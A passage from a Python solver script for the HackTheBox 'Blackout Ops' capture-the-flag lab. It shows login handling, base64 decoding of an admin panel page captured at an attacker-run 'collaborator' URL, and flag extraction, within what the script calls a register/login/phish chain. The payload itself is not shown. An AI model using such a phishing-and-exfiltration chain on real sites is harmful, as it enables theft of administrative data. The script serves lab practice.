 ```python
            decode_admin_panel()
        else:
            print("[-] Login failed:", json_response)
            sys.exit(1)
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

def decode_admin_panel():
    encoded_admin_panel = input("Please enter base64 encoded data recived from collaborator: ")
    decode_admin_panel_page = base64.b64decode(encoded_admin_panel)

    try:
        page_text = decode_admin_panel_page.decode("utf-8", errors="ignore")
    except Exception as e:
        print("[-] Failed to decode as UTF-8:", e)
        page_text = decode_admin_panel_page.decode("latin-1", errors="ignore")

    if page_text:
        print("[+] Decoded Admin Panel")
        get_flag(page_text)
    else:
        print("[-] Unable to decode admin panel")

def get_flag(page_source: str):
    # properly escaped braces and closed capturing group
    flag_regex = re.compile(r"(HTB\{.*?\})", re.IGNORECASE)
    flag_match = re.search(flag_regex, page_source)
    if flag_match:
        print(f"[+] Finally Got the flag: {flag_match.group(1)}")
    else:
        print("[-] Failed to get the flag")

def main():
    parser = argparse.ArgumentParser(description="HackTheBox Blackout Ops Solver (register/login/download/verify/phish)")
    parser.add_argument("--email", required=True, help="Email to register/login with")
    parser.add_argument("--url", required=True, help="Target base URL (e.g. https://neo.example)")
    parser.add_argument("--collaborator", required=True, help="you collaborator url")
    args = parser.parse_args()

    base_url = args.url
    email = args.email
    collaborator = args.collaborator
    if not email.endswith("@blackouts.htb"):
        print("[-] Please enter an email ending with @blackouts.htb")
        sys.exit(1)
    else:
        if not collaborator.startswith("http://"):
            print("[-] Please enter an collaborator start with http://")
            sys.exit(1)
        else:
            register(base_url, email, ACCESS_TOKEN,collaborator)

if __name__ == "__main__":
    main()
{% endraw %}
```
